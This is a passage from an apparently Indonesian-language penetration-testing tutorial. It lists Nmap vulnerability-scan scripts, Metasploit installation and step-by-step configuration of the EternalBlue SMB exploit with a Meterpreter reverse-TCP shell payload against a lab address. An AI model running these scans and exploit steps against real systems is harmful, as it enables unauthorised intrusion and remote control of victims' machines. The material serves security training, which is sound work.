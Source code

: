 #### Nmap Scripts untuk Vulnerability Assessment
```bash
# SMB vulnerabilities
nmap --script smb-vuln-* 192.168.1.100

# HTTP vulnerabilities
nmap --script http-vuln-* 192.168.1.100

# SSL/TLS testing
nmap --script ssl-* 192.168.1.100

# Database testing
nmap --script mysql-* 192.168.1.100
nmap --script oracle-* 192.168.1.100
```

### 2. Metasploit Framework - Exploitation Platform

#### Instalasi dan Setup
```bash
# Kali Linux (pre-installed)
msfconsole

# Ubuntu/Debian
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall
chmod 755 msfinstall
./msfinstall

# Initialize database
sudo msfdb init
```

#### Basic Commands
```bash
# Start Metasploit
msfconsole

# Update Metasploit
msfupdate

# Search for exploits
search type:exploit platform:windows
search cve:2017-0144

# Get information about module
info exploit/windows/smb/ms17_010_eternalblue

# Use a module
use exploit/windows/smb/ms17_010_eternalblue

# Show options
show options

# Set required options
set RHOSTS 192.168.1.100
set LHOST 192.168.1.50

# Show payloads
show payloads

# Set payload
set payload windows/x64/meterpreter/reverse_tcp

```